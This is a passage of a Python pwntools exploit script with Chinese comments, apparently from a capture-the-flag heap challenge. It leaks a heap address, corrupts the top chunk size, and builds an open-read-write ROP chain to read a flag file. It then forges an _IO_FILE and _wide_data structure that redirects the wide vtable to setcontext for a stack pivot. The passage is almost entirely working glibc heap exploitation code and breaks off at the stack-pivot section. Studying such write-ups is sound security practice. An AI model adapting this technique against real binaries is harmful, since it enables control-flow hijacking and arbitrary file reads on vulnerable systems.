    ```python
   heap_addr = u64(p.recv(6).ljust(8,b'\x00'))-0x2760
   success("heap_addr==>"+hex(heap_addr))
   
   # ========== 修改 top_chunk ==========
   add(0x4c0,15)   # 用来修改 top_chunk的size
   free(15)        # 提高 top_chunk 
   add(0x4b0,14)
   edit(15,b"\x00"*0x4b8 + p64(0x300))
   run()
   
   # ORW
   syscall = read_addr+16
   flag = heap_addr+0x2C00
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(write_addr)
   
   
   # ========== 伪造IO_FILE ==========
   chunk_addr = heap_addr + 0x2760     #当前large bin 的地址
   
   file = p64(0) + p64(0)                  #_IO_read_end    _IO_read_base
   file+= p64(0) + p64(0) + p64(0) #_IO_write_base  _IO_write_ptr _IO_write_end
   file+= p64(0) + p64(0)                  #_IO_buf_base    _IO_buf_end
   file+= p64(0) * 8                       #_IO_save_base ~ _codecvt
   file+= p64(heap_addr) + p64(0)*2        #_lock   _offset  _codecvt
   file+= p64(chunk_addr + 0xe0)           #_wide_data
   file+= p64(0) *3                        #_freeres_list ~ __pad5
   file+= p64(0) + p64(0)*2                # _mode  _unused2 (2dword)
   
   file+=p64(IO_wfile_jumps_addr + 0x10)   #vtable
   
   # ========== _IO_wide_data_2 ==========
   _wide_vtable = chunk_addr + 0xf0
   rdx_data     = chunk_addr + 0xf0
   stack_change = chunk_addr + 0x1d0
   
   file+= p64(0)*3                                      #_IO_read_ptr   _IO_read_end  _IO_read_base
   file+= p64(1) + p64(rdx_data) + p64(setcontext_addr) #_IO_write_base _IO_write_ptr _IO_write_end
   file+= p64(0) * 16 + p64(stack_change) + p64(ret)
   file+= p64(0) * 4
   file+= p64(_wide_vtable)          #_wide_vtable
   file+= p64(0)   #填充
   
   # ========== stack change ==========
   ```